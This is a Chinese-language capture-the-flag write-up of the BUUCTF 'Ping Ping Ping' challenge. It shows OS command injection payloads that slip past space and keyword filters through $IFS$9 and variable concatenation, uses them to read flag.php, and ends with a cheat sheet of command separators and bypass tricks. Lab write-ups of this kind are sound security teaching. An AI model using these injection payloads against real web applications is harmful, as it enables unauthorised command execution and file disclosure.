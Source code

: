 # [GXYCTF2019]Ping Ping Ping
点击题目链接 http://45b617f0-d180-45e7-9b84-d236b06c36bd.node5.buuoj.cn:81/

将地址赋给 ip 后会 ping 这个ip

那么我们尝试执行命令：

?ip=1; ls

![](./9c36b4c925cdce2f966b93497220dc8.png)

过滤了空格

利用 $IFS$9 进行过滤：

![](./b9c56ea4d92c3df692f70ef41715be9.png)

通过回显我们可以知道在当前目录有flag.php和index.php文件。

尝试查看flag,php：

?ip=1;$IFS$9cat$IFS$9flag.php

![](./61c37cdf4f3fada7535df5a75e4f303.png)

flag被过滤了？

那看看index.php怎么说：

?ip=1;$IFS$9cat$IFS$9index.php

![](./0122d74e603a610d8e8327939abcfe6.png)

我们知道：

preg_match("/.*f.*l.*a.*g.*/", $ip)这个的意思是匹配到按flag这个顺序的所有字符

那么我们直接通过变量拼接进行绕过尝试查看flag,php:

?ip=1;a=g;cat$IFS$9fla$a.php

![](./725012c0df58624d88ed7b586478425.png)

查看器中发现被注释掉的flag
提交flag{f33338dc-370f-41d8-88e6-01e3f1197718}

## 1、命令联合执行

    ; 前面的执行完执行后面的
    | 管道符，上一条命令的输出，作为下一条命令的参数（显示后面的执行结果）
    || 当前面的执行出错时（为假）执行后面的
    & 将任务置于后台执行
    && 前面的语句为假则直接出错，后面的也不执行，前面只能为真
    %0a （换行）
    %0d （回车）

## 2、命令绕过空格

    当我们执行系统命令时，不免会遇到空格，如cat flag.txt，当空格被程序过滤时，便需要利用以下字符尝试代替绕过：

    <

    ${IFS}

    $IFS$9

    %09

    即：
     

        cat<flag.php
         
        cat${IFS}flag.php
         
        cat$IFS$9flag.php

## 3、变量拼接

    比如我们想执行 cat flag.php但对方过滤了flag字符串

    如：preg_match("/.*f.*l.*a.*g.*/", $ip)这个的意思是匹配到按flag这个顺序的所有字符

    那么我们就可以利用变量拼接绕过：

    ?a=g;cat fla$a.php即可。
